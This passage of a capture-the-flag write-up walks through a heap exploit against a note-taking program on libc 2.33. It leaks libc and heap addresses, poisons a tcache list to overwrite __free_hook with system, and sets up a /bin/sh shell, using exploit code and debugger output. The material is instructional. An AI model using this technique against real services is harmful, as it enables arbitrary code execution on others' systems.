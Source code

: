 Unfortuantely, we can't just `print_note` `note #8` to get a `libc` pointer for two reasons.
The libc addr starts with `00` and puts will just give us an empty output.
And we don't actually have a pointer to the start of the `unsorted-bin` chunk.

Instead, we can take advantage of `note #9` being an `0x70` allocation.
When it's re-used we get an `8-byte` overwrite into the next chunk.
```python
add_note(11, b"A"*0x70)
```
Which looks something like this:
```
Chunk(addr=0x55ecd22bb690, size=0x70, flags=PREV_INUSE)  //Note #9
    [0x000055ecd22bb690     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]

Chunk(addr=0x55ecd22bb700, size=0xb0, flags=PREV_INUSE)  //unsorted bin
    [0x000055ecd22bb700     0a bc 54 5c b2 7f 00 00 00 bc 54 5c b2 7f 00 00    ..T\......T\....]
```

With this, we can print out the `libc` address.
```python
unsorted_leak = u64(b"\x00" + print_note(7)[0x72:-1] + b"\x00"*2)
```

Let's not forget to leak the heap key because this is `libc 2.33`.
```python
heap_leak = u64(print_note(0)[1:-1] + b"\x00"*3)
```

All our leaks look something like this:
```
LIBC LEAK: 0x7fb25c36b000
SYSTEM:    0x7fb25c3baa60
FREE HOOK: 0x7fb25c54ee20
HEAP KEY: 0x55ecd22bb
```

Let's finish the exploit by writing to `__free_hook` through inserting the chunk
into our `t-cache` list.

We can use the `edit_note` function to overwrite the `t-cache` pointer in `node #5`.
We also need to xor the `__free_hook` address with our `heap key` so that it becomes a valid pointer.

```python
edit_note(5, p64(libc.sym['__free_hook'] ^ heap_leak)[:6], newline=False)
```

Our Tcache list should now look something like this:
```
Tcachebins[idx=7, size=0x90] count=6  ←  Chunk(addr=0x55688c487570, size=0x90, flags=PREV_INUSE)  ←  Chunk(addr=0x7fb25c54ee20, size=0x0, flags=! PREV_INUSE)  ←  [Corrupted chunk at 0x7f6031501]
```

We can see that `__free_hook`'s address was successfully added to the list and we'll get a reference in three allocations.

```
add_note(13, b"/bin/sh\x00", big=True)
add_note(14, b"TEST", big=True)
add_note(15, p64(libc.sym["system"]), big=True)
```
